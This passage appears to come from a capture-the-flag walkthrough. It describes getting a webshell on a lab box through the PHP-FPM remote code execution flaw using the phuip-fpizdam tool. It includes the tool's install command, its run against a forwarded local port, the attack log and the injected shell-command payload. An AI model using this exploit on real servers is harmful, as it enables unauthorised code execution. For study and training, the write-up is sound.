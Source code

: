     home
    lib
    lib64
    media
    mnt
    opt
    php-src
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    : cannot open shared object file: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:44:14 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
    [05-Aug-2021 00:44:36 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
    [05-Aug-2021 00:44:47 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
    
    Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
    batch mode: /usr/bin/ersatool create|print|revoke CN
    

This webshell was very unstable. Sometimes I had to refresh the page five or
six times to see a result. I also tried a [version of the
exploit](https://github.com/neex/phuip-fpizdam) written in Go that gave better
information about what was going on. I got the binary with `go get
github.com/neex/phuip-fpizdam `, and then ran it:

    
    
    oxdf@parrot$ ~/go/bin/phuip-fpizdam http://127.0.0.1:9001/index.php
    2021/08/05 08:01:05 Base status code is 200
    2021/08/05 08:01:07 Status code 502 for qsl=1765, adding as a candidate
    2021/08/05 08:01:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
    2021/08/05 08:01:09 Attack params found: --qsl 1755 --pisos 38 --skip-detect
    2021/08/05 08:01:09 Trying to set "session.auto_start=0"...
    2021/08/05 08:01:10 Detect() returned attack params: --qsl 1755 --pisos 38 --skip-detect <-- REMEMBER THIS
    2021/08/05 08:01:10 Performing attack using php.ini settings...
    2021/08/05 08:01:11 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
    2021/08/05 08:01:11 Trying to cleanup /tmp/a...
    2021/08/05 08:01:11 Done!
    

Typically I like to move to `curl` once I get a webshell working, but here
I’ll use Firefox as it allows me to just Ctrl-Shift-R quickly to run until I
see results.
